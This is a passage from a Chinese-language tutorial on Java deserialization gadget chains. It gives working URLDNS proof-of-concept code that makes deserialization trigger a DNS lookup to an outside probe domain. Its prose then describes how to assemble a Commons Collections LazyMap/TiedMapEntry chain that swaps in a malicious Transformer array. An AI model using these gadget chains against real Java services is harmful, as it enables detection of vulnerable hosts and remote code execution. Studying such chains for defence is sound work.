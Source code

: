 ```java
/*
HashMap.readObject()
    HashMap.putVal()
        HashMap.hash()
            URL.hashCode()
*/

public class URLDNS {
    public static void main(String[] args) throws Exception {
        URL url = new URL("<http://urldns.1asj4bef1af.ipv6.bypass.eu.org>");

        Class c = Class.forName("java.net.URL");
        Field f = c.getDeclaredField("hashCode");
        f.setAccessible(true);
        // 修改hashCode的值为非-1，以防止在序列化时触发DNS查询，造成误报
        f.set(url, 1);

        HashMap<URL, Integer> hashMap = new HashMap<>();
        hashMap.put(url, 0);

        // 将hashCode改回-1，以在反序列化时触发DNS查询
        f.set(url, -1);

        // 序列化
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("urldns.ser"));
        oos.writeObject(hashMap);
        // 反序列化
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("urldns.ser"));
        ois.readObject();
    }
}
```

在此前的 URLDNS 链中，我们首先对`url`对象的成员变量`hashCode`修改成了非-1，以防在序列化时触发 DNS 查询，造成误报，然后再调用`put`方法，最后才会将`hashCode`改回-1，以在反序列化时触发 DNS 查询。

同理，在 CC 链中也需要这样的操作，由于此处涉及的是`Transformer`对象，那我们就可以先传入一个空`ChainedTransformer`至`lazyMap`，然后创建`TiedMapEntry`对象并传入这个`lazyMap`和一个 key，再创建`HashMap`对象并调用`put`新增`TiedMapEntry`对象和一个 value，最后利用反射将真正恶意的 Transformer 数组传入`ChainedTransformer`中。

最后的最后，还需对传入`lazyMap`中的键进行移除，以通过`LazyMap#get`方法中的 if 判断。

```java
public class LazyMap extends AbstractMapDecorator implements Map, Serializable {

    public Object get(Object key) {
        // 如果key当前不在map中，则为key创建value
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
}
```
